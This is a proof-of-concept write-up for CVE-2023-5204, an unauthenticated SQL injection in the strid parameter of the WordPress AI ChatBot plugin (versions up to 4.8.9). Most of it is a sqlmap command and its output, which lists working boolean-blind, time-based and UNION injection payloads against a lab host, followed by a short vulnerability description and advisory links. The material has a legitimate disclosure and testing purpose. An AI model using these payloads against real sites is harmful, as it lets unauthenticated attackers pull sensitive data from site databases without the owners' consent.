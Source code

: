# CVE-2023-5204
AI ChatBot &lt;= 4.8.9 - Unauthenticated SQL Injection via qc_wpbo_search_response

### POC
---

```
python3 sqlmap.py -u 'http://wordpress.lan:80/wp-admin/admin-ajax.php' --data='action=wpbo_search_response&name=test&keyword=test&strid=1'  --level 4 --risk 3 --dbms mysql --banner -p strid
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.2.1#dev}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:14:53 /2024-02-21/

[17:14:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: strid (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=wpbo_search_response&name=test&keyword=test&strid=1 AND 6180=6180

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=wpbo_search_response&name=test&keyword=test&strid=1 AND (SELECT 1436 FROM (SELECT(SLEEP(5)))kZil)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: action=wpbo_search_response&name=test&keyword=test&strid=1 UNION ALL SELECT CONCAT(0x716a766b71,0x585550564e544a4d4a70515873674c6d71554c65434c597077746655737a4f487a6d57427154744c,0x7171706271),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[17:14:53] [INFO] testing MySQL
[17:14:53] [INFO] confirming MySQL
[17:14:53] [INFO] the back-end DBMS is MySQL
[17:14:53] [INFO] fetching banner
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP 8.0.30
back-end DBMS: MySQL >= 8.0.0
banner: '8.1.0'
```


### Description:
The ChatBot plugin for WordPress is vulnerable to SQL Injection via the $strid parameter in versions up to, and including, 4.8.9 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.


# External Links
-https://plugins.trac.wordpress.org/browser/chatbot/trunk/qcld-wpwbot-search.php?rev=2957286#L177
-https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=2977505%40chatbot%2Ftrunk&old=2967435%40chatbot%2Ftrunk&sfp_email=&sfph_mail=
-https://www.wordfence.com/threat-intel/vulnerabilities/id/5ad12146-200b-48e5-82de-7572541edcc4?source=cve
